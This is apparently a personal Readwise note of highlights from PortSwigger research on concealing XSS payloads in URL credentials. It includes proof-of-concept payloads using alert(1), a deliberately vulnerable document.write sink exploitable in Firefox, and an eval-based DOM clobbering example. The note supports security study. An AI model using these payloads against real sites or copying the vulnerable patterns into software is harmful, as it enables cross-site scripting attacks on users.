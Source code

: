 ```yaml
---
author: PortSwigger Research
aliases:
  - Concealing Payloads in URL Credentials
tags:
  - readwise/articles
url: https://portswigger.net/research/concealing-payloads-in-url-credentials
date: 2024-10-30
---
```

# Concealing Payloads in URL Credentials

![rw-book-cover](https://portswigger.net/cms/images/a1/af/aea1-twittercard-twitter.png)

## Highlights


[Johan Carlsson](https://x.com/joaxcar) discovered you could [conceal payloads inside the credentials part of the URL](https://x.com/joaxcar/status/1712858781405577370)
> [View Highlight](https://read.readwise.io/read/01jbeytcppp4rptab4gsga468j)



The first surprising thing to me was `document.URL` does not always match `location`.
```js
https://foo:bar@portswigger-labs.net
alert(location);//https://portswigger-labs.net/ 
alert(document.URL);//https://foo:bar@portswigger-labs.net/
```
> [View Highlight](https://read.readwise.io/read/01jbeytntd8t11nkaz9m9m5n6r)



What that means is you can use just URL inside an event grab the payload from the credentials:
 ```html
 https://alert(1)@portswigger-labs.net <img src onerror=alert(URL.slice(8,16))>
 ```
 
> [View Highlight](https://read.readwise.io/read/01jbeytz4vj7jxwhkjckymr6c3)



Shazzer discovered that **Firefox doesn't URL-encode single quotes**. This is particularly useful in [DOM-based vulnerabilities](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/DOM-based%20vulnerabilities.md) scenarios, if the site removes the query string and hash. As it makes vulnerabilities like this exploitable in Firefox:
 ```js
function getBase(url) {    
	return url.split(/[?#]/)[0]; 
} 
document.write(`<script>const url='${getBase(document.URL)}';<\/script>`);
```
 To exploit this you need to provide the payload in the credentials part on Firefox like this:
```
https://'-alert(1)-'@example.com
```
> [View Highlight](https://read.readwise.io/read/01jbeywm5asm7qp5t0a8gjksr9)



You can combine this with [DOM clobbering](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/DOM-based%20vulnerabilities.md#DOM%20clobbering) to give you control over objects with username or password properties. Note you can even supply a blank href which still enables control over username or password via the URL.
```html
https://user:pass@example.com 
<a href id=x>test</a> 
<script> 
eval(x.username)//user eval(x.password)//pass
</script>
```
> [View Highlight](https://read.readwise.io/read/01jbeyzgk8asxm80rt7pmd8036)

